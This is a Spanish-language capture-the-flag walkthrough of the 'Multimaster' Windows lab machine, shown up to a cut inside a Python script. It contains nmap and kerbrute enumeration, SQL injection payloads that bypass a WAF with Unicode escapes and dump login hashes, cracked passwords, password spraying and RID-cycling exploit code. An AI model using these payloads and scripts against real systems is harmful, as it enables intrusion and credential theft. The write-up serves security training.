

# Multimaster

Multimaster es una máquina Windows de una dificultad increíble que presenta una aplicación web que es vulnerable a la inyección SQL. Esta vulnerabilidad se aprovecha para obtener un punto de apoyo en el servidor.&#x20;

El examen del sistema de archivos revela que está instalada una versión vulnerable de VS Code y se encuentran procesos de VS Code ejecutándose en el servidor.Al explotar la función de depuración, se puede obtener un shell como el usuario `cyork`. Se encuentra una contraseña en una DLL, que debido a la reutilización de contraseñas, da como resultado un shell como `sbauer`.&#x20;

Se descubre que este usuario tiene permisos `GenericWrite` sobre el usuario `jorden`. Abusar de este privilegio nos permite obtener acceso al servidor como este usuario. `jorden` es miembro del grupo `Operadores de servidor`, cuyos privilegios explotamos para obtener un shell de SISTEMA.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Multimaster**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.179 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-13 14:03 CET
Nmap scan report for 10.10.10.179
Host is up (0.057s latency).
Not shown: 65488 closed tcp ports (reset), 19 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49688/tcp open  unknown
49694/tcp open  unknown
49703/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.84 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.179
	[*] Open ports: 53,80,88,135,139,389,445,464,593,636,1433,3268,3269,3389,5985,9389,47001,49664,49665,49666,49668,49671,49674,49675,49678,49688,49694,49703

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. Verificamos a través del resultado obtenido de que la máquina se trata de un Domain Controller (DC) por los puertos y servicios que se encuentran expuestos.

```bash
❯ nmap -sCV -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,3389,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49678,49688,49694,49703 10.10.10.179 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-13 13:55 CET
Nmap scan report for multimaster.megacorp.local (10.10.10.179)
Host is up (0.074s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-13 13:05:07Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
1433/tcp  open   ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-13T12:58:07
|_Not valid after:  2055-01-13T12:58:07
| ms-sql-info: 
|   10.10.10.179:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.10.179:1433: 
|     Target_Name: MEGACORP
|     NetBIOS_Domain_Name: MEGACORP
|     NetBIOS_Computer_Name: MULTIMASTER
|     DNS_Domain_Name: MEGACORP.LOCAL
|     DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|     DNS_Tree_Name: MEGACORP.LOCAL
|_    Product_Version: 10.0.14393
|_ssl-date: 2025-01-13T13:06:15+00:00; +9m40s from scanner time.
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MEGACORP
|   NetBIOS_Domain_Name: MEGACORP
|   NetBIOS_Computer_Name: MULTIMASTER
|   DNS_Domain_Name: MEGACORP.LOCAL
|   DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|   DNS_Tree_Name: MEGACORP.LOCAL
|   Product_Version: 10.0.14393
|_  System_Time: 2025-01-13T13:06:05+00:00
|_ssl-date: 2025-01-13T13:06:15+00:00; +9m40s from scanner time.
| ssl-cert: Subject: commonName=MULTIMASTER.MEGACORP.LOCAL
| Not valid before: 2025-01-12T12:57:31
|_Not valid after:  2025-07-14T12:57:31
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp closed unknown
49671/tcp open   msrpc         Microsoft Windows RPC
49674/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open   msrpc         Microsoft Windows RPC
49678/tcp open   msrpc         Microsoft Windows RPC
49688/tcp open   msrpc         Microsoft Windows RPC
49694/tcp open   msrpc         Microsoft Windows RPC
49703/tcp open   msrpc         Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2016
OS CPE: cpe:/o:microsoft:windows_server_2016
OS details: Microsoft Windows Server 2016
Network Distance: 2 hops
Service Info: Host: MULTIMASTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: MULTIMASTER
|   NetBIOS computer name: MULTIMASTER\x00
|   Domain name: MEGACORP.LOCAL
|   Forest name: MEGACORP.LOCAL
|   FQDN: MULTIMASTER.MEGACORP.LOCAL
|_  System time: 2025-01-13T05:06:05-08:00
| smb2-time: 
|   date: 2025-01-13T13:06:08
|_  start_date: 2025-01-13T12:57:40
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1h18m14s, deviation: 3h01m25s, median: 9m39s

TRACEROUTE (using port 49667/tcp)
HOP RTT       ADDRESS
1   105.20 ms 10.10.16.1
2   31.87 ms  multimaster.megacorp.local (10.10.10.179)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.40 seconds
```

Procederemos a transformar el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

A través de la herramienta de `netexec` y `ldapsearch` procederemos a  enumerar el equipo para localizar más información. Entre la información obtenida, verificamos el `hostname`, versión del SO y el nombre del dominio.

```bash
❯ nxc smb 10.10.10.179
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)

❯ ldapsearch -x -H ldap://10.10.10.179 -s base | grep defaultNamingContext
defaultNamingContext: DC=MEGACORP,DC=LOCAL
```

Procederemos a añadir en nuestro archivo `/etc/hosts` las entradas correspondientes para que a la hora de hacer referencia al dominio o el equipo nos responda correctamente a la dirección IP del equipo.

```bash
❯ cat /etc/hosts | grep multimaster
10.10.10.179 multimaster.megacorp.local megacorp.local
```

## Web Enumeration

Procederemos a realizar una enumeración sobre el sitio web que hemos encontrado expuesto en el puerto 80. La página principal al principal dispone de varias secciones que deberemos explorar para verificar&#x20;

<figure><figcaption></figcaption></figure>

Una de las primeras acciones a realizar, será verificar las tecnologías y frameworks que utiliza la aplicación web, esto lo podremos realizar a través del _**Add-on**_ de `Wappalyzer`. Entre la información recopilada, podemos verificar que hay un Windows Server como sistema operativo que levanta la aplicación web, utiliza un IIS (Internet Information Services).

Toda esta información hay que contrastarla con otras herramientas para verificar que la información sea válida.

<figure><figcaption></figcaption></figure>

Otra de las herramientas para verificar las tecnologías que utiliza una aplicación web es la herramienta de `whatweb`.

```bash
❯ whatweb http://10.10.10.179
http://10.10.10.179 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.179], Microsoft-IIS[10.0], Script, Title[MegaCorp], X-Powered-By[ASP.NET], X-UA-Compatible[IE=edge]
```

Revisaremos la página que hemos encontrado [http://10.10.10.179/#/login](http://10.10.10.179/#/login) y en este caso al intentar iniciar sesión con credenciales por defecto nos indica que el _Login_ se encuentra en mantenimiento en estos momentos y no se puede utilizar. Intentamos realizar la típica inyección SQL para verificar si es vulnerable el panel de _Login_, pero también recibimos el mismo mensaje de error.

<figure><figcaption></figcaption></figure>

Procederemos a revisar la página web de [http://10.10.10.179/#/gallery](http://10.10.10.179/#/gallery) y verificamos que al parecer no hay al parecer ningún tipo de información, podríamos también intentar descargarnos las imágenes de esta galería en busca de información sensible en los metadatos, pero después de revisarlos tampoco van por aquí los tiros...

<figure><figcaption></figcaption></figure>

Al revisar el sitio web de [http://10.10.10.179/#/app](http://10.10.10.179/#/app) revisamos que al parecer tiene un buscador el cual a medida del input que le introduzcas, el resultado que te muestra son correos electrónicos que posiblemente quedándonos con el nombre del usuario, sean usuarios válidos del dominio.

<figure><figcaption></figcaption></figure>

Enviaremos la solicitud al `BurpSuite` para analizar como funciona la solicitud que se realiza y la respuesta que se recibe. Verificamos que la respuesta que nos muestra se encuentra en formato JSON.&#x20;

Por lo tanto, tenemos una vía potencial para enumerar usuarios que parecen formar parte del dominio.

<figure><figcaption></figcaption></figure>

### Enumerating users with Python script

Con la ayuda de [ChatGPT ](https://chatgpt.com)hemos creado el siguiente script en Python que realizará solicitudes con un payload de la (A-Z) en busca de enumerar correos electrónicos que nos muestre la página web en la respuesta.


```python
import requests
import json

# URL del endpoint
url = "http://10.10.10.179/api/getColleagues"

# Cabeceras de la solicitud
headers = {
    "Content-Type": "application/json;charset=utf-8",
    "Origin": "http://10.10.10.179",
    "Referer": "http://10.10.10.179/",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
}

# Generar letras de la A a la Z
letters = [chr(i) for i in range(ord('A'), ord('Z') + 1)]

# Lista para almacenar correos electrónicos únicos
emails = set()

print("Iniciando enumeración de usuarios...")

for letter in letters:
    # Cuerpo de la solicitud con la letra actual
    data = {"name": letter}

    try:
        # Enviar la solicitud POST
        response = requests.post(url, headers=headers, json=data)

        # Verificar si la respuesta es válida
        if response.status_code == 200:
            # Parsear la respuesta JSON
            users = response.json()
            
            # Extraer correos electrónicos
            for user in users:
                email = user.get("email")
                if email:
                    emails.add(email)  # Añadir el correo a la lista
        else:
            print(f"Error en la solicitud con letra {letter}: {response.status_code}")
    except Exception as e:
        print(f"Error al procesar la letra {letter}: {e}")

# Mostrar los correos electrónicos extraídos
print("\nCorreos electrónicos encontrados:")
for email in sorted(emails):
    print(email)
```


Le daremos permisos de ejecución al script creado y procederemos a ejecutarlo, verificamos que ha logrado encontrar los siguientes correos electrónicos en la página web. Estos correos electrónicos deberemos de guardarlo en un archivo por ejemplo`users.txt`.

```bash
❯ chmod +x userenum.py

❯ python3 userenum.py
Iniciando enumeración de usuarios...

Correos electrónicos encontrados:
aldom@megacorp.htb
alyx@megacorp.htb
ckane@megacorp.htb
cyork@megacorp.htb
egre55@megacorp.htb
ilee@megacorp.htb
james@megacorp.htb
jorden@megacorp.htb
kpage@megacorp.htb
minato@megacorp.htb
nbourne@megacorp.htb
okent@megacorp.htb
rmartin@megacorp.htb
sbauer@megacorp.htb
shayna@megacorp.htb
zac@magacorp.htb
zpowers@megacorp.htb
```

Procederemos a trabajar con el archivo `users.txt` para solamente quedarnos con la parte del nombre de usuario que es lo que realmente nos interesa.

```bash
❯ cat users.txt | awk '{print $1}' FS='@' | sponge users.txt

❯ cat users.txt
aldom
alyx
ckane
cyork
egre55
ilee
james
jorden
kpage
minato
nbourne
okent
rmartin
sbauer
shayna
zac
zpowers
```

Dado que el DC dispone del puerto 88 (Kerberos) expuesto, podemos validar a través de la herramienta de `kerbrute` el listado de usuarios que disponemos actualmente para verificar cuáles de ellos son válidos a nivel de dominio.

En el resultado obtenido, verificamos que de los 17 usuarios que disponíamos solamente 14 usuarios son válidos a nivel de usuarios del dominio.

```bash
❯ kerbrute userenum --dc 10.10.10.179 -d megacorp.local users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/13/25 - Ronnie Flathers @ropnop

2025/01/13 14:14:57 >  Using KDC(s):
2025/01/13 14:14:57 >  	10.10.10.179:88

2025/01/13 14:14:57 >  [+] VALID USERNAME:	cyork@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	ckane@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	aldom@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	kpage@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	alyx@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	james@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	jorden@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	nbourne@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	ilee@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	okent@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	zac@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	rmartin@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	sbauer@megacorp.local
2025/01/13 14:14:57 >  [+] VALID USERNAME:	zpowers@megacorp.local
2025/01/13 14:14:57 >  Done! Tested 17 usernames (14 valid) in 0.212 seconds
```

## SQL Injection

En la solicitud enviada en el `BurpSuite`, probamos de añadirle una `'` a la query para verificar si es vulnerable a SQL Injection. Verificamos que en la respuesta por parte del servidor recibimos un mensaje de `403 - Forbidden: Access is denied.`

Lo que podemos pensar es que detrás del servidor web se encuentra un WAF (Web Application Firewall) que posiblemente nos bloquee estos intentos de inyección SQL.

<figure><figcaption></figcaption></figure>

### Bypassing WAFs with JSON Unicode Escape Sequences

Realizando una investigación por Internet, nos encontramos con el siguiente blog que nos explica como intentar realizar un Bypass a las SQLI sobre los resultados JSON a través de realizar un encode de la inyección en formato `Unicode Escape`.



En este caso, utilizaremos `Cyberchef` de manera local para lograr mayor privacidad y no utilizar la versión web. Estableceremos que utilice el `Escape Unicode Characters` y le asignaré que realice el encode sobre `'`. Verificamos que el resultado obtenido del encode es --> `\u0027`.

Al enviar la solicitud con la `'` encodeada, verificamos que no nos muestra un mensaje de `Access Denied`, en este caso simplemente desaparece el resultado de la respuesta por parte del servidor, lo cual podríamos llegar a intentar realizar la explotación del SQLI a través de encodear las inyecciones SQL en formato `Escape Unicode Characters`.

<figure><figcaption></figcaption></figure>

El primer paso a realizar en una inyeccción SQLI es determinar el número total de columnas que dispone la BBDD para posteriormente inyectar correctamente nuestros payloads.&#x20;

Deberemos a partir de ahora, encodear toda nuestra inyección SQL en el formato anteriormente indicado para lograr realizar el Bypass del supuesto WAF que nos bloqueaba las inyecciones.

En este caso al intentar probar nuestra inyección para determinar si la BBDD dispone de 4 columnas, verificamos que el resultado que nos muestra es `null`, lo cual podemos verificar que el número de columnas no es correcto.

```sql
1' UNION ALL SELECT 1,2,3,4;-- -
```

<figure><figcaption></figcaption></figure>

En intentar realizar la siguiente inyección SQL, verificamos que la BBDD dispone de 5 columnas en total y en la respuesta por parte del servidor nos muestra los números del 2 al 5, por lo tanto, podríamos llegar a inyectar nuestros payloads de SQLI en cualquiera de los campos mencionados.

```sql
1' UNION ALL SELECT 1,2,3,4,5;-- -
```

<figure><figcaption></figcaption></figure>

Una de las primeras inyecciones a realizar, será lograr a determinar la versión exacta de la BBDD y el nombre de la base de datos que se está utilizando actualmente.

Por el resultado obtenido, verificamos que nos enfrentamos ante un `Microsoft SQL Server (MSSQL) 2017` y la base de datos que está actualmente en uso se llamada `Hub_DB`.


```sql
1' UNION ALL SELECT 1,@@version,db_name(),4,5;-- -
```


<figure><figcaption></figcaption></figure>

A través de la siguiente inyección SQL, verificaremos el nombre de las bases de datos existentes en el servidor SQL. Verificamos que de las 5 BBDDs que hemos encontrado las cuatro primeras se tratan de BBDDs que vienen por defecto en MSSQL, en cambio, la BBDD nombrada `Hub_DB` no es una base de datos común, deberíamos investigar sobre esta misma.

```sql
1' UNION ALL SELECT 1,name,3,4,5 FROM master..sysdatabases;-- -
```

<figure><figcaption></figcaption></figure>

Revisaremos los nombres de las tablas de la base de datos `Hub_DB`, en este caso verificamos que nos muestra dos tablas. De las dos tablas mencionadas, la que nos llama más la atención es la mencionada `Logins`.

```sql
1' UNION ALL SELECT 1,name,3,4,5 FROM Hub_DB..sysobjects WHERE xtype ='U';-- -
```

<figure><figcaption></figcaption></figure>

Procederemos a investigar más sobre tabla `Logins` y verificaremos el nombre de las columnas que dispone esta table. En el resultado obtenido nos llama la atención las columnas existentes, parecen almacenar usuarios y contraseñas.


```sql
1' UNION ALL SELECT 1,name,3,4,5 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Logins');-- -
```


<figure><figcaption></figcaption></figure>

Al revisar las columnas `username` y `password`, verificamos que en la respuesta recibida por parte del servidor nos muestran usuarios y lo que parece ser contraseñas hasheadas que posteriormente podríamos intentar crackear.

```sql
1' UNION ALL SELECT 1,username,password,4,5 FROM Logins;-- -
```

<figure><figcaption></figcaption></figure>

Almacenaremos todo el resultado JSON obtenido para guardarlo en un archivo TXT. Trabajaremos con el archivo TXT para quedarnos con los nombres de usuarios y contraseñas y almacenarlos en dos archivos correspondientes.


```bash
❯ catnp resultBBDD.txt | jq | grep 'name' | awk '{print $NF}' | tr -d '",' > usersBBDD.txt

❯ catnp resultBBDD.txt | jq | grep 'position' | awk '{print $NF}' | tr -d ' ",' > passwordsBBDD.txt
```


Al revisar los hashes obtenidos, pensamos en primera instancia dada a la longitud del hash, parecía un tipo de hash SHA-384. Cuando ejecutamos `hashcat` con -`m 10800` para `SHA-384` con `rockyou.txt`, no se llegó a crackear nada.

Hay otros dos formatos en la página de hashes de ejemplo de Hashcat: `SHA3-384 (-m 17500)` y `Keccak-384 (-m 17900)`. Cuando ejecutamos este último, obtuvimos los siguientes resultados:

```bash
❯ hashcat -a 0 -m 17900 passwordsBBDD.txt /usr/share/wordlists/rockyou.txt
...[snip]...
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1                                           
...[snip]...
```

Una vez obtenida esas 3 credenciales en texto plano, procederemos a realizar u&#x6E;_**Password Spraying**_ para validar si estas credenciales son válidas para el listado de usuarios del dominio que disponemos. Verificamos que en este caso, no obtenemos ningunas credenciales válidas.

```bash
❯ nxc smb 10.10.10.179 -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\aldom:password1 STATUS_LOGON_FAILURE 
...[snip]...
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\shayna:banking1 STATUS_LOGON_FAILURE 
...[snip]...
```

### Active Directory Users enumeration of MSSQL Injection (mssqli-duet)

Buscando más información sobre maneras de explotar un MSSQL, nos encontramos con el siguiente blog que nos indica como podemos intentar explotar este servicio para enumerar usuarios del Active Directory (AD) a través de inyecciones SQL para enumerar usuarios a través del Relative ID (RID).



El primer paso a realizar para revisar si podemos explotar esta vulnerabilidad es buscar el nombre del domain (`domain name`). En el caso de que no conozcamos el nombre de dominio, a través de la siguiente inyección SQL podemos identificar el nombre del dominio. Tenemos que previamente haber determinado la cantidad de columnas, tipo de columnas y saber que es inyectable a SQLi.

Verificamos que al enviar la solicitud, nos proporciona que el `domain name` es `MEGACORP`.

```sql
1' UNION ALL SELECT 1,2,3,4,(select default_domain());-- -
```

<figure><figcaption></figcaption></figure>

El siguiente paso a realizar es averiguar el Security ID (SID) del dominio. Así que una vez obtenido el nombre del dominio, el siguiente paso será inyectar la siguiente consulta utilizando una cuenta o un grupo integrado conocidos (en este ejemplo se utiliza la cuenta del usuario Administrator) para obtener el valir del SID.

En este caso el formato que nos devuelve en la respuesta, es el SID en formato hexadecimal que posteriormente podremos descodificar para obtener el valor en texto plano.


```sql
1' UNION ALL SELECT 1,2,3,4,(select sys.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator')));-- -
```


<figure><figcaption></figcaption></figure>

Hemos creado el siguiente script en Python que lo que realiza es convertir el SID que se encuentra en hexadecimal en el texto original.




```python
import struct
import sys

def hex_to_sid(sid_hex):
    # Convertir el SID hexadecimal a bytes
    sid_bytes = bytes.fromhex(sid_hex.replace("0x", ""))
    
    # Extraer la versión del SID
    version = sid_bytes[0]
    
    # Extraer el identificador de autoridad
    identifier_authority = int.from_bytes(sid_bytes[2:8], 'big')
    
    # Contar las subautoridades
    subauthority_count = sid_bytes[1]
    
    # Extraer las subautoridades
    subauthorities = struct.unpack('<' + 'I' * subauthority_count, sid_bytes[8:])
    
    # Construir el SID en formato legible
    sid = f'S-{version}-{identifier_authority}' + ''.join(f'-{sub}' for sub in subauthorities)
    return sid

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Uso: python3 convert.py <SID_HEX>")
        sys.exit(1)

    # Leer el argumento de la línea de comandos
    sid_hex = sys.argv[1]
    
    # Convertir y mostrar el resultado
    try:
        sid = hex_to_sid(sid_hex)
        print(f"SID: {sid}")
    except Exception as e:
        print(f"Error: {e}")
```


Al ejecutar el script y pasarle el SID en formato hexadecimal, nos devolverá el valor original del SID.

```bash
❯ python3 convert.py 0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000
SID: S-1-5-21-3167813660-1240564177-918740779-500
```

Siguiendo el contenido del blog sobre la enumeración de usuarios a través de ataques de _**RID Cycling Attack**_ a través de inyecciones en MSSQL, nos proporciona la siguiente herramienta para explotar y enumerar a los usuarios a través del RID.



Deberemos de almacenar en un archivo la solicitud POST que se envía desde `BurpSuite` que la necesitaremos para utilizar la herramienta.

```bash
❯ cat request.txt; echo
POST /api/getColleagues HTTP/1.1
Host: 10.10.10.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=utf-8
Content-Length: 12
Origin: http://10.10.10.179
Connection: keep-alive
Referer: http://10.10.10.179/
Sec-GPC: 1
Priority: u=0

{"name":"a"}
```

Procederemos a realizar la explotación con la herramienta de `mssqli-duet.py`, en ella deberemos de especificar el parámetro vulnerable, en nuestro caso  `name`, estableceremos que la inyección sea `a'` la cual la codificaremos en `unicode`.&#x20;

Utilizaremos el archivo `request.txt` que es el que contiene la solicitud POST que hemos guardado, especificaremos en este caso que haga el _**RID Cycling Attack**_ del 1000 al 1200 y se realice las solicitudes cada 3 segundos para evitar ser detectados.

En el resultado obtenido verificamos que hemos logrado obtener a 4 usuarios más que forman parte del dominio.

```bash
❯ python3 /opt/mssqli-duet/python/mssqli-duet.py -p 'name' -i "a'" -e unicode -r request.txt -rid 1000-1200 -t 3
[+] Beginning enumeration - Start time:  Mon, 13 Jan 2025 16:40:22
[+] Collected request data:
Target URL = http://10.10.10.179/api/getColleagues
Method = POST
Content-Type = application/json;charset=utf-8
Cookies =  None
Request data = {"name":"a"}


[+] Determining the number of columns in the table...
	[!] Number of columns is  5
[+] Determining column type...
	[-] Column type not null
	[!] Column type is 1
[+] Discovering domain name...
	[+] Domain = MEGACORP
[+] Discovering domain SID...
S-1-5-21-3167813660-1240564177-918740779-

[+] Enumerating Active Directory via SIDs...
[+] Determining users...

MEGACORP\\DnsAdmins
MEGACORP\\DnsUpdateProxy
MEGACORP\\svc-nas
MEGACORP\\tushikitatomo
MEGACORP\\andrew
MEGACORP\\lana

[+] Determining network hosts...
MEGACORP\\MULTIMASTER$

[+] Determining groups...
MEGACORP\\Privileged IT Accounts


[!] Finished!

Mon, 13 Jan 2025 16:51:44
```

#### RID Enumeration on MSSQL Injection with Python script

También hemos creado el siguiente script en Python que cumple el mismo funcionamiento.


```python
import json
import requests
from time import sleep
# URL de destino al que se enviarán las peticiones.
url = 'http://10.10.10.179/api/getColleagues'

# Esta función se encarga de codificar el payload de la petición.
def encode_me(str):
    val = []
    # Iteramos sobre cada carácter en la cadena 'str'.
    for i in str:
        # Convertimos cada carácter a su equivalente en hexadecimal y lo agregamos con el prefijo "\\u00".
        val.append("\\u00"+hex(ord(i)).split("x")[1])
    
    # Unimos todos los valores generados en una cadena final.
    return ''.join([i for i in val])

# Iteramos sobre una serie de números del 1000 al 1200.
for i in range(1000,1200):
